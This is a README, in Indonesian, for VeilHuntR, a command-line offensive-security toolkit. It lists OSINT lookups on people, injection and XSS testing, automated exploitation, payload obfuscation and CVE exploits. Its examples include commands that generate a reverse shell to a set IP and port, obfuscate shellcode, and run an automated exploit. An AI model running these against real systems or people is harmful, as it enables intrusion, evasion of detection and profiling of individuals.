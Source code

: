 # VeilHuntR

VeilHuntR adalah tool berbasis CLI yang bisa digunakan langsung lewat terminal untuk mengumpulkan informasi dan menguji target dari berbagai sisi. Cocok dipakai dalam berbagai tahap eksplorasi, pengecekan celah, dan simulasi eksekusi payload.

## Fitur Utama

- Cek informasi dari email, username, atau nomor telepon
- Cari tahu apakah password pernah bocor
- Uji celah umum seperti SQLi, LFI, dan command injection
- Jalankan eksploitasi otomatis ke URL target
- Tes payload seperti XSS dan path traversal
- Obfuscate payload dengan base64 atau XOR
- Buat reverse shell yang bisa langsung dipakai
- Scan URL untuk mendeteksi potensi celah
- Susun urutan langkah eksploitasi dengan chainmap
- Jalankan exploit berbasis CVE yang tersedia langsung dari tool

## Contoh Penggunaan

```bash
# Telusuri profil online berdasarkan username
./veilhuntr --profile johndoe

# Cek apakah password bocor
./veilhuntr --pwd "hunter2"

# Scan SQL injection
./veilhuntr --sqli "http://target.com/page.php?id=1"

# Eksekusi otomatis exploit terhadap target
./veilhuntr --exploit "http://testphp.vulnweb.com/listproducts.php?cat=1"

# Obfuscasi payload
./veilhuntr --obfuscate shellcode.txt --xor --base64

# Buat reverse shell
./veilhuntr --gen-revshell --os linux --ip 192.168.1.10 --port 4444
```

## Instalasi

```bash
git clone https://github.com/G181124/veilhuntr
cd veilhuntr
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
chmod +x veilhuntr
```
